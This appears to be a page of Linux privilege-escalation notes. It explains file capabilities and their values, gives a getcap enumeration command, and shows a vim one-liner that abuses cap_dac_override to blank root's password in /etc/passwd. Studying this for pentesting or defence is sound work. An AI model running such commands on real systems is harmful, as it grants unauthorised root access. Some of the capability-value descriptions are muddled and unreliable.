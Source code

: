 | Capability       | Description                                                                                                                                           |
|------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------|
| cap_setuid       | Allows a process to set its effective user ID, which can be used to gain the privileges of another user, including the root user.                  |
| cap_setgid       | Allows to set its effective group ID, which can be used to gain the privileges of another group, including the root group.                            |
| cap_sys_admin    | This capability provides a broad range of administrative privileges, including the ability to perform many actions reserved for the root user, such as modifying system settings and mounting and unmounting file systems. |
| cap_dac_override | Allows bypassing of file read, write, and execute permission checks.                                                                                   |

options

| Capability Values | Description  |
|-------------------|-----------------------------------------------------------------------------------------------------------------------------------|
| =                 | This value sets the specified capability for the executable, but does not grant any privileges. This can be useful if we want to clear a previously set capability for the executable. |
| +ep               | This value grants the effective and permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability. |
| +ei               | This value grants sufficient and inheritable privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows and child processes spawned by the executable to inherit the capability and perform the same actions.|
| +p                | This value grants the permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability. This can be useful if we want to grant the capability to the executable but prevent it from inheriting the capability or allowing child processes to inherit it. |


### Enumerating Capabilities

```
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```

### Exploitation Capabilities

```shell
# check vim
$ getcap /usr/bin/vim.basic

/usr/bin/vim.basic cap_dac_override=eip

# We can use the cap_dac_override capability of the /usr/bin/vim binary to modify a system file:
/usr/bin/vim.basic /etc/passwd

# or
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd

# Now, we can see that the x in that line is gone, which means that we can use the command su to log in as root without being asked for the password.
```

# Service-based Privilege Escalation

## Vulnerable Services

check for avaialble services and binaries versions to see if there is available exploits 
